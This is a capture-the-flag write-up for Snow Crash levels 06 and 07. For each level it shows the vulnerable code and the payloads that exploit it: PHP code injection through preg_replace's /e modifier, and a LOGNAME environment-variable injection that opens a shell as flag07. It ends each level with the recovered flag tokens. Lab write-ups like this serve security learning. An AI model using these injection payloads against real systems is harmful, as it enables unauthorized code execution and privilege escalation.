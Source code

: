 # Snow Crash - Level 06

## Discovering the Vulnerability

Listing the directory contents with `ls`, we find an executable `level06` and a PHP script. Inspecting the script reveals the following code:

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Understanding the Exploit

The script processes input by searching for patterns like `[x ...]` and using `preg_replace('/e')`. The `/e` modifier evaluates the matched expression as PHP code, making it possible to execute arbitrary commands.

In PHP, `${}` allows executing expressions within a string when used inside `preg_replace('/e')`, leading to a command injection vulnerability.

## Exploiting the Injection

By crafting an input file containing a malicious `[x ...]` pattern, we can execute `getflag` and retrieve the flag.

### Steps:

1. Create a file containing the exploit:

   ```bash
   echo '[x ${`getflag`}]' > /tmp/getflag.txt
   ```

2. Execute the vulnerable script:

   ```bash
   ./level06 /tmp/getflag.txt
   ```

3. The output reveals the flag:

   ```
   PHP Notice:  Undefined variable: Check flag. Here is your token : wiok45aaoguiboiki2tuin6ub
   in /home/user/level06/level06.php(4) : regexp code on line 1
   ```

This successfully retrieves the flag by exploiting the PHP code injection vulnerability.

# Snow Crash - Level 07

## Finding the Executable

Listing the directory contents with `ls -la`, we discover an executable named `level07`. Inspecting it with `cat` reveals compiled C code, so we use a decompiler to analyze its functionality.

## Understanding the Vulnerability

The decompiled code shows that the program retrieves the `LOGNAME` environment variable, passes it to `/bin/echo`, and executes the resulting command using `system()`. Additionally, it uses `setresuid()` to execute with the file owner's privileges (`flag07`).

### Decompiled Code:

```c
int main()
{
    unsigned int v0;  // [sp-0x1c]
    void* v1;  // [sp-0x10]
    unsigned int v2;  // [sp-0xc]
    unsigned int v3;  // [sp-0x8]

    v2 = getegid();
    v3 = geteuid();
    v0 = v2;
    setresgid(v2, v2);
    v0 = v3;
    setresuid(v3, v3);
    v1 = 0;
    v0 = getenv("LOGNAME");
    asprintf(&v1, "/bin/echo %s ");
    return system(v1);
}
```

## Exploiting the Vulnerability

Since the program executes `system()`, we can manipulate `LOGNAME` to inject a command and gain a shell as `flag07`.

### Steps:

1. Set `LOGNAME` to inject `/bin/sh`:

   ```bash
   export LOGNAME="; /bin/sh"
   ```

2. Execute the vulnerable program:

   ```bash
   ./level07
   ```

3. Run `getflag` inside the new shell:

   ```bash
   $ getflag
   Check flag. Here is your token : fiumuikeil55xe9cu4dood66h
   ```

This successfully retrieves the flag by executing commands with `flag07`'s privileges.

